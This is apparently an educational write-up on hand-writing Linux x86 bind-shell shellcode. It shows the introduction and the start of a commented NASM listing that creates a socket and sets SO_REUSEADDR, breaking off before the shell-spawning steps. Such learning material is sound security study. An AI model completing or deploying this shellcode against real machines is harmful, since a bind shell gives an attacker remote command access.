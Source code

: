 


For the implementation part, a generic program was written in NASM to get the opcodes. Port configuration was done with Python using the opcodes from on the NASM prototype as a prototype and configuring the port opcodes based on user input. 

It is worth mentioning that this shellcode is by no means meant to be the shortest possible. Rather, the idea was to get a thorough grasp of every step necessary to achive the desired result. Detailed comments are added for maximum clarity



.

## bind.nasm:

```nasm
global _start

section .text

_start:

    
    ; socket
    ; int socketcall(int call, unsigned long *args);
    ; int socket(int domain, int type, int protocol);
    ;
    ; int socketcall(1, [2,1,6])

socket:
    xor eax, eax
    xor ebx, ebx
    push 6                      ; protocol = IPPROTO_IP = 6 (tcp)
    push 1                      ; type = SOCK_STREAM = 1
    push 2                      ; domain = PF_INET = 2
    mov ecx, esp                ; args = [2,1,6]
    mov bl, 1                   ; call = sys_socket = 1
    mov al, 102                 ; socketcall
    int 0x80

    mov esi, eax                ; esi == socketfd
    


    ; setsockopt 
    ; int socketcall(int call, unsigned long *args);
    ; int setsockopt(int sockfd, int level, int optname, const void *optval, socklen_t optlen);
    ;
    ; int socketcall(14, [socketfd, 1, 2, *1, 1])

setsockopt:
    xor eax, eax
    mov al, 1                   
    push eax                    ; optlen = 1
    mov ecx, esp
    push ecx                    ; *optval = 1
    inc eax
    push eax                    ; optname = SO_REUSEADDR = 2
    dec eax
    push eax                    ; level = SOL_SOCKET = 1
    push esi                    ; sockfd
    mov ecx, esp                ; args = [socketfd, 1, 2, *1, 1]
    mov bl, 14                  ; call = sys_setsockopt = 14
    mov al, 102                 ; socketcall
    int 0x80
```